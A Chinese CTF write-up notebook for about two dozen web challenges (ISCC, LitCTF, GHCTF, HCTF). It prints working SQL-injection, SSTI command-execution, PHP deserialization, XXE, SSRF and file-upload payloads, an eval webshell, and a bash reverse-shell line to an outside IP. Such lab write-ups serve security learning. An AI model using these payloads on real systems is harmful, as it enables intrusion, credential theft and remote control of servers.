找出被过滤的字符

1' oorr 1=1;#也被过滤 说明不是黑名单消除 空格和等号都被过滤了

用like代替等号，括号代替空格


报错注入

爆库

1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#

爆表

1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#

1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#

1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))#


1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#


## 218.赛博之城  [ISCC]


想起题目提示“用户代理”和回归基础，于是在user-agent填数据再提交

查看文件


a=               数字

b=      1 = e559dcee72d03a13110efe9b6355b30d    字母，非0开头

$c=   jibengong                

$ jibengong=$a=    1 

这里有个⾮法参数名传参考察，将第⼀个**_替换为[**

构造intval($b) == 'jibengong'：$b以非数字开头（如a0），其intval为0。
绕过strpos检查：确保$b中的0不在首位（如a0）。
变量覆盖与MD5匹配：通过$$c = $a设置$jibengong为$a的值，并构造parse_str参数使$huiguiflag[$a]等于md5($c)
对于参数三要huigui_jibengong.3进⾏md5后等于huigui_jibengong.2，将jibengong进行md5加密：为e559dcee72d03a13110efe9b6355b30d

```url
huigui[jibengong.1=123&huigui[jibengong.2=a0%3D123%26123%3De559dcee72d03a13110efe9b6355b30d&huigui[jibengong.3=jibengong
```


## 219.哪吒的试炼 [ISCC2025]


线索一定是莲藕 最后构造payload

按钮最开始按不了，把dis去掉后

去到get传参 加上post传参


直接提交就错误了 一定是要和上面的文字结合

按规律翻译 获得flag


## 220.shallowseek[ISCC2025]


这是假flag，于是联网查看f1@g.txt

尝试注入 也被过滤

单独输入or发现一样的提示 那么就是or被过滤了

不确定是不是注入题，在页面中找寻到如下js ：http://112.126.73.173:49111/static/evil-buttons.js

```javascript
document.addEventListener('DOMContentLoaded', function () {
    const btnA = document.getElementById('btn-a');
    const btnB = document.getElementById('btn-b');
    let aLocked = false;
    let bLocked = false;
    const _ = [0x6c, 0x6f, 0x63, 0x6b];

    // 鍒濆瀹氫綅
    btnA.style.position = 'absolute';
    btnB.style.position = 'absolute';
    btnA.style.left = '60%';
    btnA.style.top = '100px';
    btnB.style.left = '70%';
    btnB.style.top = '100px';
    
    function resetPosition(btn, left, top) {
        btn.style.left = left;
        btn.style.top = top;
    }
    
    window[String.fromCharCode(0x6c,0x6f,0x63,0x6b) + String.fromCharCode(0x41)] = function (k, v) {
        if (btoa(k + String.fromCharCode(0x38) + v) === 'NDM4Mg==') {
            aLocked = true;
            btnA.classList.add('locked');
            resetPosition(btnA, '60%', '100px');
            console.log("A鎸夐挳宸查攣瀹氾紒");
            fetch('api/mark_frag_ok.php');
        }
    };
    
    window.lockB = function () {
        bLocked = true;
        btnB.classList.add('locked');
        resetPosition(btnB, '70%', '100px');
        console.log("B鎸夐挳宸查攣瀹氾紒");
    };
    
    btnA.addEventListener('mouseenter', function () {
        if (!aLocked) {
            const offsetX = Math.random() * 200 - 100;
            const offsetY = Math.random() * 100 - 50;
            btnA.style.left = `calc(60% + ${offsetX}px)`;
            btnA.style.top = `calc(100px + ${offsetY}px)`;
        }
    });
    
    btnB.addEventListener('mouseenter', function () {
        if (!bLocked) {
            const offsetX = Math.random() * 200 - 100;
            const offsetY = Math.random() * 100 - 50;
            btnB.style.left = `calc(70% + ${offsetX}px)`;
            btnB.style.top = `calc(100px + ${offsetY}px)`;
        }
    });
    
    btnA.addEventListener('click', function () {
        if (!aLocked) {
            alert('涓轰粈涔堜笉璇曡瘯閫塀锛�');
        } else {
            fetch('api/get_frag.php')
                .then(res => res.text())
                .then(data => alert(data))
                .catch(() => alert("璇诲彇澶辫触"));
        }
    });
    
    btnB.addEventListener('click', function () {
        if (!bLocked) {
            fetch('api/hint.php')
                .then(r => r.text())
                .then(txt => alert(txt));
        } else {
            alert('缁欎綘璁蹭釜绗戣瘽锛氬浜哄憡璇夌▼搴忓憳锛氬幓涔颁袱涓瀛愶紝濡傛灉鏈夎タ鐡滐紝灏变拱涓€涓紝浜庢槸浠栨渶鍚庝拱鍥炴潵涓€涓瀛愩€�');
        }
    });

});
```

访问：api/hint.php ShallowSeek的好朋友AJAX好想要个头啊，X开头的最好了

由AJAX联想到： **X-Requested-With: XMLHttpRequest **

对于api/mark_frag_ok.php 你为什么不试试捉住爱动的B选项？

api/get_frag.php ShallowSeek虽然傻，但是不想让你看这个

当我们带着api/mark_frag_ok.php中的cookie和X-Requested-With访问

```python
import requests

s = requests.Session()  # 自动管理 Cookie
headers = {
    "X-Requested-With": "XMLHttpRequest",  # 标识 AJAX 请求
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
}

base_url = "http://112.126.73.173:49111/api"
mark_url = f"{base_url}/mark_frag_ok.php"
res_mark = s.get(mark_url, headers=headers)


print("获取的 Cookie:", s.cookies.get_dict())

# 2. 带着 Cookie 和 X-Requested-With 访问 get_frag.php

get_url = f"{base_url}/get_frag.php"
res_get = s.get(get_url, headers=headers)

print("HTTP 状态码:", res_get.status_code)
print("获取的 Cookie:", s.cookies.get_dict())
print("响应内容:", res_get.text)

```

获取的 Cookie: {'PHPSESSID': 'ab521e0578588efa2cabacada1e2ab27'}
HTTP 状态码: 200
获取的 Cookie: {'PHPSESSID': 'ab521e0578588efa2cabacada1e2ab27'}
响应内容: ISCC{0p3n

拼接后发现 ISCC{0p3n01_cu_5_3r35_th3b5t!}提交不对。最后发现是flag后半段有问题

复制如何给ISCC出题里面的话，去问


直接丢给AI，然后给我们一个脚本

然后在滕王阁序中发现密钥：387531189

```python
def shallow_seek_decrypt(encrypted_text, key):
    """
    Decrypts the given text using the ShallowSeek algorithm with the provided key.

    Args:
        encrypted_text (str): The encrypted text to be decrypted.
        key (str): The decryption key (digits only).
    
    Returns:
        str: The decrypted original text.
    """
    if not encrypted_text or not key:
        return encrypted_text
    
    # Convert key digits to integers
    key_digits = [int(c) for c in key if c.isdigit()]
    
    # Split the encrypted text into parts:
    # 1. Parts selected by the key (same length as key)
    # 2. Remaining parts (if any)
    key_selected = list(encrypted_text[:len(key_digits)])
    remaining = list(encrypted_text[len(key_digits):])
    
    original_parts = []
    
    # We need to process the key in reverse order
    for digit in reversed(key_digits):
        if not key_selected:
            break
    
        # The last character in key_selected was inserted at position (digit-1)
        # So we need to insert it back at that position in the current text
        char = key_selected.pop()
    
        # If remaining is not empty, we need to consider it as part of the text
        # where the character was inserted
        insert_pos = digit - 1
        if insert_pos > len(remaining):
            remaining.append(char)
        else:
            remaining.insert(insert_pos, char)
    
    # The remaining parts now contain the original text
    return ''.join(remaining)


# Example usage

encrypted_text = "01_cu_5_3r35_th3b5t!}"
decryption_key = "387531189"

decrypted_text = shallow_seek_decrypt(encrypted_text, decryption_key)
print(f"Encrypted: {'ISCC{0p3n'+encrypted_text}")
print(f"Decrypted: {'ISCC{0p3n'+decrypted_text}")

```

Encrypted: ISCC{0p3n01_cu_5_3r35_th3b5t!}
Decrypted: ISCC{0p3n_50urc3_15_th3_b35t!}

## 221.十八铜人阵[ISCC2025]


先查看源码 发现赢藏字段 


还有一段

看看/iewnaibgnehsgnit（/iewnaibgnehsgnit -> /tinginghsgenbianwei）判断就是flag的文件

仔细看源代码可以看到有八个“佛曰”开头的注释，于是联想到佛曰解密
将每个注释放到佛曰在线解密工具中解密

```
听声辨位
西南方
东南方
北方
西方
东北方
东方
探本穷源
```

抓包注入，进入下一关

但访问给出的提示没有用，看看网址：iewnaibgnehsgnit 发现是听声辩位反着的拼音，猜测下一个是探本穷原的拼音反着念。

这里要带着session访问：

```http
GET /nauygnoiqnebnat HTTP/1.1
Host: 112.126.73.173:16340
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://112.126.73.173:16340/
Connection: close
Cookie: session=eyJhbnN3ZXJzX2NvcnJlY3QiOnRydWV9.aCTPNg.O8Sx8uWdfoAWKx_ACUt7n7fWWYk
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

进入下一关：


查看源码：、

复现：是利用yongzheng的post请求，测试很久后发现是无回显ssti注入

POST传参：

yongzheng={{lipsum|attr(request.args.a1)|attr(request.args.a2)(request.args.a3)|attr(request.args.a4((request.args.a5))|attr(request.args.a6)()}}


## 222.星愿信箱 [Litctf2025]


通过输入测试，排除了SQL注入，也扫不到文件，试试ssti注入，但被屏蔽


那就尝试使用控制语句的符号来执行print()函数。
{{ }}：通常用于输出变量或表达式的结果（如 Jinja2、Django、Twig）。
：用于执行控制逻辑（如条件判断、循环、宏定义等）。


替代之后就可以了，然后使用self.**dict**._TemplateReference__context.keys()命令，大家可以记住这条命令


```python
self._dict_._TemplateReference__context.keys()
```

用途：
该命令主要用于 枚举当前模板上下文中的所有变量。在Jinja2等模板引擎中，self可能指向模板的上下文对象，_TemplateReference__context是其（通过名称改写访问内部的 `__context` 属性。）内部属性，keys()则返回所有可访问的变量名。

回显内置函数，

```python

```

调用模板内置的lipsum对象（用于生成 随机文本）访问全局os模块，然后动态调用 popen 执行Linux系统命令ls /运行并输出结果

cat也被过滤


## 223.nest_js [Litctf2025]


随便输入几个没反应，猜测是简单的弱密码


猜到直接结束


## 224.多重宇宙日记 [Litctf2025]


先注册进入到个人资料

随意更新一下个人资料


提示原型链污染（**Prototype Pollution**），它是一种 **JavaScript 对象属性赋值漏洞**，可以通过修改 `__proto__` 或 `constructor.prototype` 等原型链属性来篡改整个应用中的默认对象结构。

查看源码，通过表单提交只能修改theme和language的，但通过 高级/测试区域 处能够直接传入一整个json对象，并且被JSON.parse()解析，没有过滤。并且了解到包装在settings对象下的内容控制着用户的配置情况


```python
使用"__proto__"获settings对象的原型，并设置isAdmin为ture
```


查看面板

## 225.easy_file [Litctf2025]


随意输入


base64编码了，看源码（扫盘发现admin.php 但会跳到index.php）


那就直接输入username=YWRtaW4=&password=cGFzc3dvcmQ=

到任意文件上传，上传图像应该是图片


上传php，png都被屏蔽：

但发现jpg可以，制作图片马抓包改后缀上传


测试链接报错了，找其他办法

想到源码有提示    //file查看头像，不像是参数名，发现是参数名

一直还GIF89a，于是换文件，用php段标签


## 226.easy_signin [Litctf2025]

一进去就403

我以为是环境问题，没思路先扫盘

提示参数不完整，最后只有login.html能进入，查看源码


两处关键


查看api/js

先尝试看看文件


尝试php伪协议，被禁用，尝试fiile协议

发现file协议可以

查看各个文件，最后看到

结果直接就能看


## 227.君の名は [LitCtf2025]


## 228.[GHCTF 2025]UPUPUP


php文件不允许


抓包爆破，确定本题为白名单限定后缀，主流可用文件尾缀为png，jpg

直接上传.htaccess失败，要用文件头绕过，GID89a会是网站直接报错，翻阅资料使用\#define width 1337
\#define height 1337


最后上传图片马，连接yijian


## 229.想犯大吴疆土吗 [ISCC]


然后会发现url后面还有个box4，把**铁索连环**提交到box4，然后拿到reward.php文件

```php
<?php
if (!isset($_GET['xusheng'])) {
    ?>
    <html>
    <head><title>Reward</title></head>
    <body style="font-family:sans-serif;text-align:center;margin-top:15%;">
        <h2>想直接拿奖励？</h2>
        <h1>尔要试试我宝刀是否锋利吗？</h1>
    </body>
    </html>
    <?php
    exit;
}

error_reporting(0);
ini_set('display_errors', 0);
?>

<?php

// 犯flag.php疆土者，盛必击而破之！

class GuDingDao {
    public $desheng;

    public function __construct() {
        $this->desheng = array();
    }
    
    public function __get($yishi) {
        $dingjv = $this->desheng;
        $dingjv();
        return "下次沙场相见, 徐某定不留情";
    }

}

class TieSuoLianHuan {
    protected $yicheng;

    public function append($pojun) {
        include($pojun);
    }
    
    public function __invoke() {
        $this->append($this->yicheng);
    }

}

class Jie_Xusheng {
    public $sha;
    public $jiu;

    public function __construct($secret = 'reward.php') {
        $this->sha = $secret;
    }
    
    public function __toString() {
        return $this->jiu->sha;
    }
    
    public function __wakeup() {
        if (preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->sha)) {
            echo "你休想偷看吴国机密";
            $this->sha = "reward.php";
        }
    }

}

echo '你什么都没看到？那说明……有东西你没看到<br>';

if (isset($_GET['xusheng'])) {
    @unserialize($_GET['xusheng']);
} else {
    $a = new Jie_Xusheng;
    highlight_file(__FILE__);
}

// 铸下这铁链，江东天险牢不可破！

```

php反序列化，

复现：TieSuoLianHuan类中有个文件包含漏洞，最后要拿到flag，肯定要文件包含的

说真的有个非常大的脑洞，要把GuDingDao结尾的o改为0才能执行成功，逆如天！

构造的反序列化连子：	

```php
<?php

class GuDingDa0 {
    public $desheng;

    public function __get($yishi) {
        $dingjv = $this->desheng;
        $dingjv();
        return "下次沙场相见, 徐某定不留情";
    }

}

class TieSuoLianHuan {
    protected $yicheng="php://filter/convert.base64-encode/resource=flag.php";

    public function append($pojun) {
        include($pojun);
    }
    
    public function __invoke() {
        $this->append($this->yicheng);
    }

}

class Jie_Xusheng {
    public $sha;
    public $jiu;

    public function __toString() {
        return $this->jiu->sha;
    }
    
    public function __wakeup() {
        if (preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->sha)) {
            echo "你休想偷看吴国机密";
        }
    }

}

$a = new Jie_Xusheng();
$a->sha=new Jie_Xusheng();
$a->sha->jiu = new GuDingDa0();
$a->sha->jiu->desheng=new TieSuoLianHuan();

echo serialize($a);
echo "\n\n\n";
echo (str_replace('_', '%5F', urlencode(serialize($a))));
echo "\n";

```

构造payload得到flag的base64码


## 230. [GHCTF 2025]Message in a Bottle

、


看附件源代码 设置了waf屏蔽{}符号，那说明可以绕过再ssti模板注入

把附件代码抛给ai 这题用了bottle框架，查询bottle的ssti

查看官方文档  [模板引擎](https://so.csdn.net/so/search?q=模板引擎&spm=1001.2101.3001.7020)允许您在模板中嵌入python代码的行或块。代码行以开头 `%` [代码块](https://so.csdn.net/so/search?q=代码块&spm=1001.2101.3001.7020)被 `<%` 和 `%>` 令牌：


由于if判断有一个特性：

**`if`语句在模板渲染时必定会执行条件表达式（无论条件真假）**

也就是说只要把代码写在if后面就一定能执行写入的代码

我们导入os模块


另一种解法
在SimpleTemplate模板下我们可以使⽤ % 来执⾏python代码。

这样就可以绕过 { 了，但是我们的 % 所在的那⼀⾏ % 的前面只能有空白字符，我们直接换行即可

```

% __import__('os').popen("bash -c 'bash -i >& /dev/tcp/123.56.103.169/4444  0>&1'").read()
```


## 231.[GHCTF 2025]ez_readfile


强比较的话只能用hash碰撞绕过

后面就是找flag在什么文件下 爆破 

 实在找不到 看wp

无法直接获取到flag内容，只能尝试从其它的***\*敏感信息文件\****中获取可能有用的消息，这里推荐直接使用***\*字典爆破\****：

字典：[Ubuntu Pastebin](https://paste.ubuntu.com/p/JjJ3krY2Dq/)

`什么是 docker-entrypoint.sh` ： Docker 容器中常见的入口脚本，通常用于在容器启动时执行一些初始化任务，比如配置环境变量（检查或设置必要的环境变量（如数据库连接配置））、设置权限、启动服务等等

目标启用了容器，经常打RCE漏洞练习的朋友们都知道，可以从vulhub或者docker上下载镜像文件,其中配置文件往往使用docker-compose.yml，但是往往还会存在着docker-entrypoint.sh 或者 entrypoint.sh作为容器的启动脚本。

一般docker-compose.yml中的文件包含了web的端口、数据库镜像的下载和存放路径，而docker-entrypoint.sh  中更多的是对一些数据库的具体操作，比如设置本环境中的管理员用户密码等等。

这意味着，如果本题目的docker环境中尝试创建了flag文件的话，那么它大概率会通过docker-entrypoint.sh和docker-compose.yml两个文件进行，那么我们可以去尝试访问这两个文件。但是对于这两个文件的存放路径还有待考究，它可能存放在根目录下，可能存放在web的上级目录，也可能和下述的搜索结果一样，存放在/var/lib/docker/overlay2/容器id/diff(/usr/local/bin/)下。


但这不是预期解

正确思路：①通过自动化工具获取了目标的指纹信息 ②明确我们的需求，搜索该指纹条件下是否存在能将XXE提升为RCE的漏洞。

| 工具                      | 用途                           |
| ------------------------- | ------------------------------ |
| WhatWeb/Wappalyzer        | Web 技术识别                   |
| nmap + -sV                | 探测服务版本                   |
| dirsearch/gobuster        | 探测目录                       |
| SearchSploit / Exploit-DB | 搜索指纹对应的漏洞             |
| Google + CVE号            | 查是否存在 XXE 可RCE的组合漏洞 |


## 232.[GHCTF 2025]SQL???


发现是sqlite


1. **`group_concat(sql)`**
   - `sqlite_master` 是SQLite的系统表，存储所有表的结构定义。
   - `sql` 列记录了每个表的创建语句（如 `CREATE TABLE users(id INT, name TEXT)`）。
   - `group_concat()` 将所有表的定义合并成一个字符串返回（避免多行结果无法显示）。
   - tbl_name
2. **`FROM sqlite_master`**
   - 从SQLite的系统表中查询数据。


最后查看flag表即可 group_concat(flag) from flag;(一般可加上limit 0,1来限制行数)


## 233.[GHCTF 2025]Goph3rrr

看题目就是需要gopher伪协议

我现进行扫盘 扫出源代码

精简后剩下有用的


根据Manage和G0pher路o由 明显的可用ssrf进行Gopher协议攻击

(1)GET提交：

需要保留的头部信息：

GET /index.php HTTP/1.1

Host:178.250.250.1

然后将以上信息做两次url编码再加入<gopher-path>中

(2)POST提交：

需要保留的头部信息：

POST

Host:

Content-Type:

Content-Length:

然后将以上信息做两次url编码再加入<gopher-path>中


**`0.0.0.0` 的特殊性**：

- 在大多数系统中，`0.0.0.0` 表示绑定到所有网络接口，但实际发起请求时，`curl` 会将其视为本地回环地址（`127.0.0.1`）。
- 因此攻击者通过 `0.0.0.0` 绕过黑名单，而实际请求仍发送到本地服务。

**功能**：在Unix/Linux系统中，`env`命令用于**打印当前Shell环境的所有变量**，包括：

- 数据库密码（如`MYSQL_PASSWORD`）
- API密钥（如`AWS_ACCESS_KEY_ID`）
- 配置文件路径（如`CONFIG_PATH`）
- 服务端口和密钥（如`SECRET_KEY`）

## 234.[GHCTF 2025]**(>﹏<)**

XXE 本质上就是：**你提交了一段 XML，服务器“信了”你定义的东西，然后就去帮你打开文件或访问 URL**。


关键点：

1. load_dtd=True 和 resolve_entities=True：

·load_dtd=True 允许 XML 解析器加载外部 DTD（Document Type Definition），可以简单的理解为load_dtd参数为TRUE时可以篡改xml文件。

·resolve_entities=True 允许解析 XML 实体（在 XML 里，实体是一种占位符，可以在 XML 文档中被替换为某些值），xml文件被篡改后必须要被解析才能生效

2. root = etree.fromstring(xml, parser)  root.find('name').text ：

·该命令将 XML 字符串解析成一个 XML 树对象，并赋值给 root 变量。


按要求构造xxe外部结构 注意点

1. xml的值要进行一次url编码

2. 改为post请求后要加上Content-Type: application/x-www-form-urlencoded

查看敏感信息


猜测会不会更目录下的flag文件


## 235.[GHCTF 2025]GetShell

一长串代码 直接丢给ai分析，找到注入点

先查看当前目录下文件有什么 index.php和wc


在查看根目录

根据靶场制作经验，docker-entrypoint.sh可能有flag的信息 cat打开看看（因为bp的响应中的中文是乱码，用浏览器打开）


flag的权限很低 

```
chmod 700 /flag  # 只有所有者可读写执行
```

这表明直接读取`/flag`可能会遇到权限问题，需要进行提权


尝试写入一句话木马也发现权限不足


判断是否存在可利用的 SUID 程序： find / -perm -4000 -type f 2>/dev/null

查找提权


## 236.[GHCTF 2025]upload?SSTI!


根据提示涉及到文件上传 模板注入以及相关过滤


文件上传

1. 上传一句话php：
2. 上传GIF89a头的图片码：同上
3. 想先上传htaccess也是类型错误

忽然发现有附件，扔给ai审计 ：

提供文件上传功能（限制为txt/log/text/md/jpg/png/gif扩展名）

过滤了*** ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]***

```python
tmp_str = """<!DOCTYPE html>...<pre>{data}</pre>...""".format(name=safe_filename, data=file_data)
return render_template_string(tmp_str)
```

 这里有ssti漏洞 那思路就是上传一个包含ssti注入payload的txt文件

查看网页指纹

Python3的Flask框架 ，尝试注入 


那就直接过滤器绕过过滤

或者 arg绕过

```php
 {{""[request.args.x1][request.args.x2][0][request.args.x3]()[137][request.args.x4][request.args.x5]['popen']('cat /f*').read()}}
payload： ?x1=__class__&x2=__bases__&x3=__subclasses__&x4=__init__&&x5=__globals__
```


## 237.[HNCTF 2022 WEEK2]ez_SSTI

尝试使用ssti注入道具FenJing


## 238.[GHCTF 2025]ezzzz_pickle


发现读取了文件fake_flag.txt，那试试能不能读取其他敏感文件/etc/passwd /etc/hosts /proc/net/arp等都能读取

试试之前说的docker文件，有结果

最后能获得flag

现在试试常规解法


点击读取flag是无效的 看源码有提示


同事爆破账号和密码不太可能 看题目和pickle有关

读到源码 扔给ai：


再复习一下shell反弹 


## 239.[GHCTF 2025]Escape！


题目自带附件


过滤了 flag  '  \\ \  SLEEP and || && select union 


更具cookie的验证 是要成为管理员 即isadmin=1时有写入文件的权限 更具题目提示 想到字符串逃逸去构造

[]: https://lisien11.xyz/2024/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8/	"php反序列化之字符串逃逸"


这是正常的cookie 如果username=";s:7:"isadmin";b:0;}那么序列化后就是

O:4:"User":2:{s:8:"username";s:21:"";s:7:"isadmin";b:0;}";s:7:"isadmin";b:0;}

为了让s的值与实际想等 就利用waf替换字符的特性 用'''''flag 会变成6个error 此时s凑到30，也与替换后相等了

**于是用'''''flag";s:7:"isadmin";b:1;}**逃逸拿到管理员权限O:4:"User":2:{s:8:"username";s:30:"'''''flag";s:7:"isadmin";b:1;}";s:7:"isadmin";b:0;}

接下来考虑写入 

源码中插入了<?php exit?>来屏蔽后面的php代码，使用伪协议`filter`写和base64解码特性卡掉后面的东西

filename=php://filter/convert.base64-decode/resource=./shell.php&txt=aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg==

后端和`<?php exit; ?>`拼上就是

<?php exit; ?>aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg==  base64解码后是 ¦^Æ+Z<?php eval($_POST[123])?>

最后构造paload查看shell.php post传入数据即可


最后求解 但我原本想的是抓包抓出cookie ：O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:0;}，的b=0改成b=1 然后再sha256，凭借出新的cookie获得权限，但一直错误 其实是因为 服务器验证逻辑
服务器验证时会：

从 Cookie 中提取数据和签名
用相同密钥重新计算数据的签名
比较两个签名是否一致

如果攻击者直接修改 b:0; 为 b:1;，服务器计算的签名为：

```php
HMAC('O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:1;}', $secretKey)
```


而 Cookie 中携带的签名是基于原始数据计算的：

```php
HMAC('O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:0;}', $secretKey)
```

两者不匹配，验证失败。


## 240.[HCTF 2018]admin


看源码提示我不是管理员

看右上角有注册有登录 那就先不考虑弱密码爆破了，进行注册看看


每个点进去 看到changepassword那里面有源码变化

找网上的资料 是当为admin用户时就会输出flag

1. 抓包看到有session 看看能不能用session伪造

解码

尝试是将用户名“yjh”改为“admin”

将session替换最后拿到flag

​	

2. 看到有unicode欺骗

说实话真的是知识盲区。。。能想出来的大师傅真的是太强了叭。。

首先注意：

更改密码的里面有这样一句代码：

```python
name = strlower(session['name'])
```


注意strlower:

注意strlower:

```python
def strlower(username):
    username = nodeprep.prepare(username)
    return username

```

这个nodeprep.prepare存在漏洞。我们还会发现，login的时候又strlower一次。这个本来是转小写的，但是如果我们注册的用户名是这个：
ᴬᴰᴹᴵᴺ


login的时候会经过一次strlower会编程ADMIN,在change password的时候会变成admin。因此可以更改admin的密码，从而完成登录。


具体可查Unicode字符表

ᴀʙᴄᴅᴇꜰɢʜɪᴊᴋʟᴍɴᴏᴘʀꜱᴛᴜᴠᴡʏᴢ

只能说太巧妙了。。。ORZ ORZ ORZ ORZ ORZ

为什么要改密码呢 因为攻击构造

我们容易想到一个攻击链：

- 注册用户ᴬᴰᴹᴵᴺ
- 登录用户ᴀdmin，变成ADMIN
- 修改密码Admin，更改了admin的密码

